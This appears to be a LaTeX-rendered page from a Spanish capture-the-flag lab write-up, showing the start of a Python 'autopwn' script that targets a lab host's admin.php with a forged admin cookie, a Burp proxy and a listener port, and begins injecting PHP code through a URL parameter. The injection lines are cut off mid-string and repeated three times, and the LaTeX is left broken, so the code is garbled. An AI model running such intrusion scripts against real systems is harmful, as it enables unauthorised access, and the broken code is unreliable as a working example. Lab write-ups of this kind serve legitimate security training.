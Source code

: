 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\hypertarget{creacion-del-autopwn-en-python}{%
\subsection*{Creacion del autopwn en python}\label{creacion-del-autopwn-en-python}}

Aqui s4vitar decide crear un autopwn para automatizar el processo de ganacia de accesso

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ threading}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://10.10.10.27/admin.php"}
\NormalTok{burp }\OperatorTok{=}\NormalTok{ \{}\StringTok{'http'}\NormalTok{: }\StringTok{'http://127.0.0.1:8080'}\NormalTok{\}}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    headers }\OperatorTok{=}\NormalTok{ \{}
        \StringTok{'Cookie'}\NormalTok{: }\StringTok{'adminpowa=noonecares'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url }\OperatorTok{+} \StringTok{"?html=<?php}\SpecialCharTok{%
\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url }\OperatorTok{+} \StringTok{"?html=<?php}\SpecialCharTok{%
\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url }\OperatorTok{+} \StringTok{"?html=<?php}\SpecialCharTok{%

}}}
\end{Highlighting}
\end{Shaded}
\end{document}
